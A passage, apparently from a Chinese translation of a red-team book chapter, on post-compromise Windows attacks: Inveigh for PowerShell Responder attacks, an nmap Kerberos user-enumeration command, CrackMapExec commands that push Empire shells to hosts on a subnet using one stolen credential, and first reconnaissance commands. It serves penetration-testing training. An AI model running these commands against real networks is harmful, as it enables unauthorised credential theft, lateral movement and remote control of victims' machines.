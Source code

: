 ### PowerShell Responder

一旦我们攻击进了 Windows 系统，我们就可以在受害者机器上使用 PowerShell 进行 Responder 攻击。原始 Responder 的两个功能都可以通过以下两个工具执行：

- Inveigh - https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1
- Inveigh-Relay

更简单的是，这一切都已经集成在 Empire 中了。

## 没有凭据的用户枚举

一旦进入了内网中，我们可以使用 Responder 来获得凭证或 shell，但有时也会发现同时启用 SMB 签名和破解 NTLMv2 SSP 是没有实质进展的。那就是我们退一步，从更基础的开始。在不主动扫描网络的情况下，我们需要获得一个用户列表（可能是用于密码爆破，甚至是内网钓鱼）。 

一种选择是开始针对域控制器枚举用户。如果是早些时候（回到2003年），我们可以尝试执行 RID 循环来获得所有用户帐户的列表。虽然现在不可用了，但爆破帐户还有其他选择。一种选择就是利用 Kerberos：

- nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm=“cyberspacekittens.local”,userdb=/opt/userlist.txt <Domain Controller IP>

![](../images/chapter_4/4-9.png)

我们将需要提供一个要测试的用户名列表，但是由于我们只是查询 DC（域控制器）而没有对其进行身份验证，因此通常此行动不会被检测。现在，我们可以采用这些用户帐户，并再次开始密码猜解!

## 使用 CrackMapExec（CME）扫描网络

如果我们还没有成功入侵进一个系统，但是我们确实通过 Responder、错误配置的 Web 应用程序、暴力破解或通过打印机获得了登录凭证，那么我们可以尝试扫描网络，看看这个帐户可以登录到哪里。使用像 CrackMapExec（CME）这样的工具进行简单的扫描可以帮助找到内部网络上的初始入口点。

过去，我们使用 CME 扫描网络、通过网络上的 SMB 进行标识/身份验证、对许多主机远程执行命令，甚至通过 Mimikatz 提取明文凭证。Empire 和 CME 都拥有了一些新特性，我们可以利用 Empire 的 REST 特性。在下面的场景中，我们将使用其 REST API 启动 Empire，在 CME 中配置密码，让 CME 连接到 Empire，使用我们拥有的单一凭证扫描网络，最后，如果成功完成身份验证，则自动将 Empire 的 payload 推送到远程受害者的系统。如果你有一个 helpdesk 或高权限帐户，那就准备好加载 Empire shell 吧！

- 启动 Empire 的 REST API 服务器
  - cd /opt/Empire
  - ./empire --rest --password ‘hacktheuniverse’
- 更改 CrackMapExec 密码
  - 打开 /root/.cme/cme.conf
  - password=hacktheuniverse
- 运行 CME 来生成 Empire shells
  - cme smb 10.100.100.0/24 -d ‘cyberspacekittens.local’ -u ‘<username>’ -p ‘<password>’ -M empire_exec -o LISTENER=http

![](../images/chapter_4/4-10.png)

![](../images/chapter_4/4-11.png)

## 在攻陷你的第一台机器之后

当你通过社会工程、drop box、Responder、攻击打印机或通过其他攻击获得对主机的访问权限后，下一步要做什么？这是一个非常重要的问题。

在过去，你需要做的一切，是了解你身在何处和周边的网络环境。我们可能首先运行类似于“netstat -ano”的命令来查找受害者的服务器、域和用户的 IP 范围的位置。我们还可以运行命令，如 `ps` 或 `sc queryex type= service state= all | find  “_NAME”` 列出所有正在运行的服务，并寻找杀毒软件或其他主机基础保护。下面是一些我们最初可能运行的其他示例命令：

